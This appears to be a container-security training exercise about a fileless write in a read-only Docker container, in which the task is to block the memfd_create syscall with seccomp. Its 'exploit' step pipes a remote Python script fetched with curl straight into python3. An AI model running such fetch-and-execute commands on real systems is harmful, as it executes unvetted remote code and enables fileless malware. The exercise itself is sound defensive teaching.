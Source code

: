 # WhizCash Bank

WhizCash Bank had its annual security audit. The result was forwarded to Alice, a DevOps Engineer in WhizCash Bank.

# Result of the External Security Audit

After the external security audit of the bank's infrastructure, a security vulnerability was found. Although the containers were started with the read-only flag, an auditor was able to write something to the file system.

## How the exploit does work

The auditor gives Alice the following instructions on how the exploit can currently be executed:

> **_NOTE:_**  To see what happens, Alice has to activate an audit profile for seccomp provided here [audit.json](./profiles/audit.json).

1. Starting a container with read-only file system and audit logs activated:

        sudo docker run --name fileless -d -it --rm --read-only --security-opt seccomp=[path-to-audit-json]/audit.json python:3.9.1

2. Run the following command to see which syscalls are executed

        sudo journalctl -f | grep audit

3. Run the exploit provided by the auditor:

        docker exec -it fileless /bin/bash
    
    and execute the exploit inside the container:

        curl -s https://sec4dev.s3.eu-central-1.amazonaws.com/output.py | python3

In the journalctl log you should see a syscall with the id 319:

    Oct 26 18:47:40 VM-204e5f1e-327f-4a61-a86b-dbf904cf8fa8 audit[53400]: SECCOMP auid=4294967295 uid=0 gid=0 ses=4294967295 subj=? pid=53400 comm="python3" exe="/usr/local/bin/python3.9" sig=0 arch=c000003e syscall=319 compat=0 ip=0x7fa1b4f78347 code=0x7ffc0000

## Alice's task

Alice is responsible for closing this security gap. In order to test the vulnerability, the auditor has provided Alice with a test exploit. She should find a way to prevent the syscall memfd_create so that the security gap can be closed.